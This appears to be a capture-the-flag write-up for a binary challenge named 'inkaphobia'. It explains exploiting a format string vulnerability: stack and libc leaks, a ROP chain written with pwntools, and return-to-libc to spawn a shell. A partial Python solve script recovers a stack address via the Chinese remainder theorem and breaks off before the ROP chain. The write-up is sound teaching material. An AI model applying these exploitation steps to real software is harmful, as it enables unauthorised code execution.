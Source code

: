 ```C
puts("Thanks for visiting our RNG! What\'s your name?");  
fgets(local_218,0x200,stdin);
printf("Thanks for coming, ");
printf(local_218);
```

We have a trivial format string vulnerability here. This gives us arbitrary read/write. However, since full RELRO is enabled and we don't have a libc leak, where can we target? 

Well, we have a stack leak. So, we use GDB to find the offset from the leaked address to the return address, which in this case is 540. We can now use our format string to write to the return address (I used pwntools' `fmtstr_payload` function for the first time, it's really nice), essentially writing a ropchain to the stack. Since we can now ROP, we can return to libc.

We can first use either ROP or our format string to leak libc, then return back to `main()` for a second pass. I used ROP to call `printf(printf_got)`, but there were other ways to do this.

When we return to `main()` we now have a libc leak and we can leak a stack address and create a second ropchain that will call `system("/bin/sh")`. Alternatively, overwriting the return address or `__malloc_hook` with a `one_gadget` was likely possible, but may have required some more thought on how to set up the registers correctly.

The result is a shell, and it works around half the time! (Sometimes the leaks don't work out because the address is off by a multiple of our modulo)

My solve script is below:

```python
from pwn import *
from sympy.ntheory.modular import crt

context.arch = "amd64"

elf = ELF("./inkaphobia")
libc = ELF("./libc.so.6")
rop = ROP(elf)

#conn = elf.process()
conn = remote("143.244.152.111", 42008)

primes = [101, 103, 107, 109, 113, 127]

def get_remainder(num):
  conn.recvuntil(":")
  conn.sendline(str(num))
  conn.recvuntil(":")
  rem = int(conn.recvline().strip())
  log.info(f"addr ≡ {rem} (mod {num})")
  return rem

conn.recvline()
remainders = []
for prime in primes: # get stack address mod primes
  remainders.append(get_remainder(prime))

# solve for the address mod 101*103*107*109*113*127
res = crt(primes, remainders) 

# find likely stack address
buf_addr = [res[0]+res[1]*n for n in range(1, 1000) if hex(res[0]+res[1]*n)[0:4]=="0x7f" and len(hex(res[0]+res[1]*n))==14][0]

log.info("Stack leak: " + hex(buf_addr))
conn.recvline()

# assemble our first ropchain
```